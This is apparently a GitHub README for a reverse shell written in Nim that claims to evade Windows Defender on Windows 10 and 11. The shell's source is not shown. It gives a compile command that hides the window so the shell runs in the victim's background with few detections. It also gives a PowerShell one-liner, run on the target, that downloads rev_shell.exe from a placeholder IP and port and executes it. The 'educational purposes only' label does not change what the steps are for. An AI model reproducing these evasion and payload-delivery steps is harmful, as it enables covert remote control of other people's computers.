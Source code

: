 # Nim Reverse Shell

A simple reverse shell is written in Nim that bypasses Windows Defender detection (see the "Tested Operating Systems" section below for more details). **This code is made for educational purposes only**.


## Tested Operating Systems

- Windows 10 (10.0.19045) 
- Windows 11 (10.0.22621)
- Windows 11 (10.0.22631)

## Installation

Installing MingW64:

```bash
apt install mingw-w64
```

Installing Nim:

```bash
apt install nim
```

## Compilation

The code can be compiled in various ways using Nim. In this example, the code is compiled to EXE using MinGW and runs in the victim's background once executed (thanks to the "--app:gui" flag). I strongly recommend following the below example for minimum detections as possible.

```bash
nim c -d:mingw --app:gui rev_shell.nim
```

## On Windows(Target Machine)

windows powershell:

```powershell
Invoke-WebRequest -Uri http://<ip_address>:<port>/rev_shell.exe -OutFile rev_shell.exe ; ./rev_shell.exe
```

